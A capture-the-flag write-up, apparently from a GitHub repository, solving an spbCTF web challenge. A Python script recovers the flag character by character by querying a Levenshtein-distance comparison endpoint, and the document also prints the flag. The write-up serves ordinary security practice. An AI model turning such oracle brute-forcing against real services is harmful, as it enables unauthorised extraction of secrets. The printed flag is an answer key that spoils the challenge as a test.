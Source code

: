 #### Challenge:

Greeting human!

We want to play a game with you. The mission is simple: you need to guess our flag, that’s all. We use an algorithm to determine the similarity of strings.

[cat-step.disasm.me](https://cat-step.disasm.me/)

---

#### Solution:

- the flag can be leaked/guessed based on the REST endpoint compare which is based on [Levenshtein distance](https://en.wikipedia.org/wiki/Levenshtein_distance)

```python
import requests
import string

flag = (['_'] * 28)
s = requests.session()


def check():
    resp = s.post('https://cat-step.disasm.me',
                  data={'flag': 'spbctf{'+''.join(flag)+'}'})
    return resp.json()['length']


len = 28
for i in range(0, 28):
    len = check()
    for c in string.printable:
        cc = flag[i]
        flag[i] = c

        if check() >= len:
            flag[i] = cc
            continue
        else:
            break
    print(len, ''.join(flag))

print('spbctf{'+''.join(flag)+'}')
```

---

<details><summary>FLAG:</summary>

```
spbctf{easy_web_fuzzing_0t5AFzSG0Oc}
```

</details>
<br/>
